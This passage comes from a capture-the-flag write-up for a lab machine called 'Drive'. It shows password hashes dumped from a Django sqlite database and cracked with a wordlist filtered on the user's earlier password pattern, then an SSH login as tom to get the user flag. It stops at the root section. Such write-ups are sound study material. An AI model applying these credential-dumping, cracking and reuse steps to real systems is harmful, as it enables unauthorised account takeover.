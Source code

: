 <br>

After getting **tom's** encrypted passwords and decrypting them from Sep to Dec we get the following plain passwords.

{% vimhl bash %}
sha1$DhWa3Bym5bj9Ig73wYZRls$3ecc0c96b090dea7dfa0684b9a1521349170fc93:john boy
sha1$Ri2bP6RVoZD5XYGzeYWr7c$71eb1093e10d8f7f4d1eb64fa604e6050f8ad141:johniscool
sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a:johnmayer7
{% endvimhl %}

<br>
We see a password pattern now which we'll need to use to crack dec which has different encryption

{% vimhl bash %}
martin@drive:/home$ cd /home/martin
martin@drive:~$ sqlite3 db.sqlite3

sqlite> select * from accounts_customuser
   ...> ;
16|pbkdf2_sha256$390000$ZjZj164ssfwWg7UcR8q4kZ$KKbWkEQCpLzYd82QUBq65aA9j3+IkHI6KK9Ue8nZeFU=|2022-12-26 06:21:34.294890|1|admin|||admin@drive.htb|1|1|2022-12-08 14:59:02.802351
21|pbkdf2_sha256$390000$npEvp7CFtZzEEVp9lqDJOO$So15//tmwvM9lEtQshaDv+mFMESNQKIKJ8vj/dP4WIo=|2022-12-24 22:39:42.847497|0|jamesMason|||jamesMason@drive.htb|0|1|2022-12-23 12:33:04.637591
22|pbkdf2_sha256$390000$GRpDkOskh4irD53lwQmfAY$klDWUZ9G6k4KK4VJUdXqlHrSaWlRLOqxEvipIpI5NDM=|2022-12-24 12:55:10.152415|0|martinCruz|||martin@drive.htb|0|1|2022-12-23 12:35:02.230289
23|pbkdf2_sha256$390000$wWT8yUbQnRlMVJwMAVHJjW$B98WdQOfutEZ8lHUcGeo3nR326QCQjwZ9lKhfk9gtro=|2022-12-26 06:20:23.299662|0|tomHands|||tom@drive.htb|0|1|2022-12-23 12:37:45
24|pbkdf2_sha256$390000$TBrOKpDIumk7FP0m0FosWa$t2wHR09YbXbB0pKzIVIn9Y3jlI3pzH0/jjXK0RDcP6U=|2022-12-24 16:51:53.717055|0|crisDisel|||cris@drive.htb|0|1|2022-12-23 12:39:15.072407
sqlite>
{% endvimhl %}

<br>
Ffter filtering the wordlists with the previous passwords we found, we are able to crack it

```
pbkdf2_sha256$390000$wWT8yUbQnRlMVJwMAVHJjW$B98WdQOfutEZ8lHUcGeo3nR326QCQjwZ9lKhfk9gtro=:johnmayer7
```

<br>
we can now SSH with tom's credentials, and get the user flag.

{% vimhl bash %}
┌──(kali㉿kali)-[~]
└─$ ssh tom@10.129.51.203
. . . . . . . . . .
tom@drive:~$
{% endvimhl %}

<br>

## Getting Root

### Information Gathering
